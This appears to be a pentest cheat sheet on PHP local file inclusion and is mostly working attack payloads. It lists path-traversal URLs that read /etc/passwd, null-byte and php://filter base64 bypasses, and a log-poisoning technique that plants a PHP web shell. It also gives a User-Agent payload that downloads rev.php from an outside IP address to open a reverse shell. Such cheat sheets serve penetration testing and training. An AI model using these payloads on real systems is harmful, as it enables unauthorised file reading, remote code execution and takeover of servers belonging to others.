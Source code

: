 ## Local file inclusion (LFI)

Basically occurs when a php web page take an other page to display in parameter.

***Example :***  
https://example.com/index.php?page=foo.php


#### Vulnerabilities
Vulnerabilities can be found using some parameter modifications

https://example.com/index.php?page=/etc/passwd
https://example.com/index.php?page=
https://example.com/index.php?page=./



### Filters

- Absolute path bypass
https://example.com/index.php?page=../../../../etc/passwd

- Extension bypass
https://example.com/index.php?page=../../../../etc/passwd%00

- Base64 bypass
https://example.com/index.php?page=php://filter/read=convert.base64-encode/resource=/etc/passwd  
https://example.com/index.php?page=php://filter/read=convert.base64-encode/resource=./../../etc/passwd  
https://example.com/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd  
https://example.com/index.php?page=php://filter/convert.base64-encode/resource=./../../etc/passwd  

## LFI2RCE / Log Poisonning

If the Apache or Nginx server is vulnerable to LFI inside the include function you could try to access to /var/log/apache2/access.log or /var/log/nginx/access.log, set inside the user agent or inside a GET parameter a php shell like `<?php system($_GET['c']); ?>` and include that file

## Remote file inclusion from log poisonning (RCE)
```php
User-Agent: <?php file_put_contents('/tmp/rev.php', file_get_contents('http://10.11.3.225/rev.php'))?>
```
Then go to /rev.php to start the reverse shell
In order to work, the php have to be in cleartext when it's read by the webpage  
e.g. if it appears in b64, nothing will work
